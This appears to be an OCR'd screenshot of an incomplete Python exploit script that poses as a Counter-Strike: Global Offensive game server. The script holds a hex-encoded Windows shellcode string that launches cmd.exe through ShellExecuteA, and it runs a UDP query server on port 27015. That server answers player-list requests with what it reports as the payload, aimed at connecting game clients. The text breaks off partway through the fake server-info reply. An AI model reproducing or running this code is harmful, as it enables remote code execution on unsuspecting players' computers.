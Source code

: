 shellcode = "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x58\x10\x8b\x53\x3c\x01\xda\x90\x8b\x52\x78\x01\xda\x8b\x72\x20\x90\x01\xde\x31\xc9\x41\xad\x01\xd8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x90\x01\xde\x66\x8b\x0c\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x90\x01\xda\x31\xf6\x89\xd6\x31\xff\x89\xdf\x31\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x65\x73\x73\x42\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\x31\xff\x89\xc7\xff\xd6\x83\xc4\x0c\x31\xc9\x51\x68\x64\x6c\x6c\x41\x88\x4c\x24\x03\x68\x6c\x33\x32\x2e\x68\x73\x68\x65\x6c\x54\x31\xd2\x89\xfa\x89\xc7\xff\xd2\x83\xc4\x0b\x31\xc9\x68\x41\x42\x42\x42\x88\x4c\x24\x01\x68\x63\x75\x74\x65\x68\x6c\x45\x78\x65\x68\x53\x68\x65\x6c\x54\x50\xff\xd6\x83\xc4\x0d\x31\xc9\x68\x65\x78\x65\x41\x88\x4c\x24\x03\x68\x63\x6d\x64\x2e\x54\x59\x31\xd2\x42\x52\x31\xd2\x52\x52\x51\x52\x52\xff\xd0\xff\xd7"


def udp_server(host="0.0.0.0", port=27015):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    print("[*] Starting TSQuery UDP server on host: %s and port: %s" % (host, port))
    s.bind((host, port))
    while True:
        (data, addr) = s.recvfrom(128*1024)
        requestType = checkRequestType(data)
        if requestType == "INFO":
            response = createINFOReply()
        elif requestType == "PLAYER":
            response = createPLAYERReply()
            print("[+] Payload sent!")
        else:
            response = 'nope'
        s.sendto(response,addr)
        yield data


def checkRequestType(data):
    # Header byte contains the type of request
    header = data[4]
    if header == "\x54":
        print("[*] Received A2S_INFO request")
        return "INFO"
    elif header == "\x55":
        print("[*] Received A2S_PLAYER request")
        return "PLAYER"
    else:
        print "Unknown request"
        return "UNKNOWN"


def createINFOReply():
    # A2S_INFO response
    # Retrieves information about the server including, but not limited to: its name, the map currently being played, and the number of players.
    pre = "\xFF\xFF\xFF\xFF"                         # Pre (4 bytes)
    header = "\x49"                                  # Header (1 byte)
    protocol = "\x02"                                # Protocol version (1 byte)
    name = "@Kernelpanic and [@0xacb](/0xacb) Server" + "\x00" # Server name (string)
    map_name = "de_dust2" + "\x00" # Map name (string)
    folder = "csgo" + "\x00" # Name of the folder contianing the game files (string)
    game = "Counter-Strike: Global Offensive" + "\x00" # Game name (string)
    ID = "\xda\x02" # Game ID (short)
    players = "\xFF" # Amount of players in the server (byte)
    maxplayers = "\xFF" # Max player allowed (byte)